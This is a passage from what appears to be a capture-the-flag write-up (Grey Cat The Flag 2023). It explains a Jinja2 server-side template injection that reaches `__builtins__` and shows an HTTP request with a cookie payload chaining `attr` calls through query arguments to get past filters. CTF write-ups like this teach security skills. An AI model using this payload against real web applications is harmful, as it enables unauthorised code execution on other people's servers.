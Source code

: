 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521124903.png)

In here, we see there's a `__builtins__` key. The value of `__builtins__` is normally either this module or the value of this module’s [`__dict__`](https://docs.python.org/3/library/stdtypes.html#object.__dict__ "object.__dict__") attribute.

Next, we need to get the `__builtins__` key.

However, we can't just use `request|attr(request.args.a)|attr(request.args.b){request.args.c}`, it'll fail.

**To solve that problem, we can use the `__getitem__` method. This method is used to get an item from the invoked instances' attribute:**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__ HTTP/1.1
Cookie: user={{request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)}}
```
